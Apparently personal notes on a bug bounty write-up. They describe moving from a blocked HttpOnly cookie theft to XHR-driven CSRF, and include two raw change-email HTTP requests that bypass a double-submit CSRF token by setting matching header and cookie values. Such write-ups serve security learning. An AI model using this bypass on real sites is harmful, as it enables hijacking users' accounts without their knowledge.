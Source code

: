 ![](https://miro.medium.com/max/500/0*2_tbeYJbnr_2yrrq.png)

* Best thing of Author here is he didn't Give up and and report and he tried to dig dipper to get cookies

* Why cookie didn't show up there ? Becuase of this flag was present in cookie -> **HTTPOnly**

* When there is **HTTPOnly** flag , we can't access Javascript there and hence can't get cookie value

* Author told us that when we got something like this, our next Option is **to make a request  using XHR** to force users to take sensitive actions without their knowledge, like change email, change password and this si what CSRF Comes in Mind.


* Here is the Post Request of change email ->


```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: 3005c34f-4cea-4470-afe8-045f1c14a2af
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=3005c34f-4cea-4470-afe8-045f1c14a2af;

{"email":"pwn@1337.com"}

```

* He observed  **CSRF Token** in that Post request of changeEmail  which is use to Prevent CSRF Attacks.

* Also there is csrf-token two times, One is in Cookie and second is as Header

* Also CSRF Header changes every time  a request is made.

* But value of CSRF-Token in Header and in Cookie  is same

* So, he changed the value with same value ->

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: asu
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=asu;

{"email":"pwn@1337.com"}
```